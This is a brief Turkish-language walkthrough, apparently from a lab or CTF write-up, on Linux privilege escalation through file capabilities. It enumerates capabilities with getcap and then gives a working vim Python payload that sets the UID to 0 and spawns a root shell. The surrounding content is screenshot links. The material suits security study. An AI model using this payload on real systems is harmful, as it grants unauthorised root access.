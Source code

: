 Ayrıcalık Yükseltme Yetenekleri
```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

